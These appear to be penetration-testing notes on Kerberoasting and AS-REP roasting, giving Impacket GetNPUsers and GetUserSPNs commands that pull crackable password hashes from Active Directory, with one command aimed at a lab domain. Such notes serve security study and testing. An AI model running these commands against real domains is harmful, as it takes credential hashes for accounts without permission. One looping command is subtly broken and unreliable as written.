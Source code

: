 # Kerberoasting
## GetNPUsers (Impacket)
````bash
impacket-GetNPUsers htb.local/svc-alfresco -dc-ip 10.10.10.161 -no-pass
````

## Bruteforcing Kerberoasting
AS-REP roasting is a technique that allows retrieving password hashes for users that have Do not require Kerberos preauthentication property selected:

![](https://www.ired.team/~/files/v0/b/gitbook-28427.appspot.com/o/assets%2F-LFEMnER3fywgFHoroYn%2F-L_nj7h01rJKzhElx_RC%2F-L_njEkL2a_oSCa1g0H9%2FScreenshot%20from%202019-03-12%2021-08-33.png?alt=media&token=dc08b9a5-1cae-4762-a6a0-773735227aad)

## Looping through a username list
**bash while read do**
````bash
while read p; do GetNPUsers.py <domain>/"$p" -request -no-pass -dc-ip <DC-IP> >> hash.txt; done < usernames.txt | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN' usernames.txt
````
**Impacket builtin loop*
````bash
GetNPUsers.py <domain>/ -no-pass -usersfile <username.txt> -dc-ip
<DC-IP> | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'
````

## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````
